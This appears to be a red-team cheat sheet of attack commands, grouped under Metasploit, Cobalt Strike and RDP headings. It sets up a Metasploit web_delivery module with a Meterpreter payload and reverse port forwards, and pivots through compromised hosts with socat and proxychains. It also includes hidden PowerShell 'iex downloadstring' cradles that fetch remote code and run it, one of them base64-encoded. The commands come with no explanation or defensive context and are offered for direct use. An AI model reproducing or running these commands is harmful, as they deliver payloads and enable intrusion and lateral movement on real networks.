 
### Metasploit
```
portfwd add -R -p 8080 -L 192.168.100.166 -l 443
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2
msf5 exploit(multi/script/web_delivery) > set SRVHOST 192.168.100.166
msf5 exploit(multi/script/web_delivery) > set SRVPORT 443
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/script/web_delivery) > set EXITFUNC thread
msf5 exploit(multi/script/web_delivery) > set URIPATH /msf.ps1
msf5 exploit(multi/script/web_delivery) > exploit -j
``

### CS
```
socks 1080

rportfwd 8080 192.168.100.166 443

proxychains socat TCP4-Listen:1433,fork TCP:10.10.120.20:1433

PS C:\Users\Commando> $OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://wkstn-1555:8080/a')"
PS C:\Users\Commando> [System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))

```

### RDP
```
socks 1337
proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389
rportfwd 8080 178.62.56.134 80
powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))"
```

